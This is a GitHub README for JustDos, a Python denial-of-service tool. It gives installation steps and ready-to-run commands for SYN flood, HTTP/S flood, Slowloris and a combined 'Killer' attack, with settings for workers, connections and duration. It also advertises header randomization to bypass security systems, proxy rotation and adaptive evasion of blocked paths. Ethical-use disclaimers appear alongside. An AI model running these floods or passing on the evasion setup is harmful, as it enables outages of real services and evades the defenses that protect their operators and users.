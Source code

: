 <p align="center">
    <img src="./docs/JustDos.png" alt="justdos"/>
</p>

<h1 align="center">JustDos - Powerful Denial-of-Service Tool</h1>
<p align="center">
    <i>"Break the balance, and find the weak point."<i>
</p>

<p align="center">
    <a href="#">
        <img alt="JustDos last commit" src="https://img.shields.io/github/last-commit/Rafacuy/JustDos/main?color=green&style=for-the-badge">
    </a>
    <a href="#">
        <img alt="JustDos License" src="https://img.shields.io/github/license/Rafacuy/JustDos??color=orange&style=for-the-badge">
    </a>
    <a href="https://github.com/Rafacuy/JustDos/issues">
        <img alt="MatrixTM issues" src="https://img.shields.io/github/issues/Rafacuy/JustDos?color=purple&style=for-the-badge">
    </a>
</p>

<h2 align="center">Introduction</h2>
JustDos is an advanced Denial-of-Service (DoS) testing tool designed for ethical hacking and penetration testing. This powerful framework enables security professionals to evaluate system resilience against various DoS attack vectors in controlled environments. The tool features multiple attack modes, adaptive strategies, and realistic traffic simulation to help identify vulnerabilities in network infrastructure and web applications.

\
**Key Features:**
- Layer 7 attacks: HTTP/S Flood, Slowloris
- Layer 4 attacks: SYN Flood
- Hybrid attacks: Killer (Slowloris + HTTP Flood)
- Adaptive attack planning to avoid blocked paths
- Realistic header randomization to bypass security systems
- Proxy support and management
- Detailed performance benchmarking
- Ethical confirmation prompts before execution

**Warning:** This tool is strictly for authorized penetration testing and educational purposes. Unauthorized use against systems without explicit permission is illegal and unethical.

## Installation

### Prerequisites
- Python 3.8+
- Linux/macOS (Windows support limited)
- Root privileges required for SYN Flood attacks

### Setup
```bash
# Clone the repository
git clone https://github.com/rafacuy/JustDos.git
cd JustDos

# Install dependencies
pip install -r requirements.txt
```

### Dependencies
- `httpx`
- `termcolor`
- `pyfiglet`
- `scapy` (for SYN Flood)

## Usage

### Basic Command Structure
```bash
python3 main.py [attack_mode] [target] [port] [options]
```

### Attack Modes
1. **SYN Flood (Layer 4):**
   ```bash
   sudo python3 main.py syn 192.168.1.10 80 \
     -p $(nproc) \
     -d 60 \
     -r 500
   ```
   - `-p`: Number of parallel processes
   - `-d`: Attack duration (seconds)
   - `-r`: Packet rate limit per process

2. **HTTP/S Flood (Layer 7):**
   ```bash
   python3 main.py http example.com 443 \
     -w 100 \
     -d 120 \
     --https \
     --adaptive \
     --use-proxies \
     --proxy-file proxies.txt
   ```
   - `-w`: Concurrent async workers
   - `--https`: Use HTTPS
   - `--adaptive`: Enable adaptive path avoidance
   - `--use-proxies`: Enable proxy rotation

3. **Slowloris Attack:**
   ```bash
   python3 main.py slowloris example.com 80 \
     -c 1000 \
     -i 5 \
     -d 300
   ```
   - `-c`: Simultaneous connections
   - `-i`: Keep-alive header interval (seconds)

4. **Hybrid Killer Attack:**
   ```bash
   python3 main.py killer example.com 80 \
     -c 500 \
     -i 10 \
     -w 75 \
     -d 180 \
     --https
   ```

### Key Features in Action
- **Adaptive Strategy Planner:** Dynamically avoids blocked paths using:
  ```python
  planner = StrategyPlanner()
  if await planner.is_path_dangerous(path): 
      continue
  ```
- **Realistic Traffic Simulation:** Generates browser-specific headers:
  ```python
  header_factory = HeaderFactory(pool_size=2000)
  headers = header_factory.get_headers()
  ```
- **Proxy Management:** Rotates proxies automatically:
  ```python
  proxy_pool = AdaptiveProxyPool(proxies, logger)
  proxy = await proxy_pool.get_proxy()
  ```

## Modules Overview
| Module | Purpose |
|--------|---------|
| `core.py` | Main attack logic and orchestration |
| `planner.py` | Adaptive strategy planning |
| `randomizer.py` | HTTP header randomization |
| `benchmark.py` | Performance metrics and reporting |
| `logger.py` | Request logging to `justdos_attack.log` |
| `proxy_manager.py` | Proxy rotation and management |
| `crawler.py` | Target path discovery |

## Contributing
Contributions are welcome! Please follow these guidelines:
1. Fork the repository and create your feature branch
2. Ensure code quality with type hints and docstrings
3. Include tests for new functionality
4. Update relevant documentation
5. Submit a pull request with detailed description

**Ethical Guidelines:**
- All contributions must adhere to ethical hacking principles
- Never implement features designed for illegal use
- Maintain focus on defensive security testing

Please read the [LEGALLITY](./LEGALLITY.md) for more details.

## License
This project is licensed under the GPL-3.0 License. See [LICENSE](LICENSE) for details.
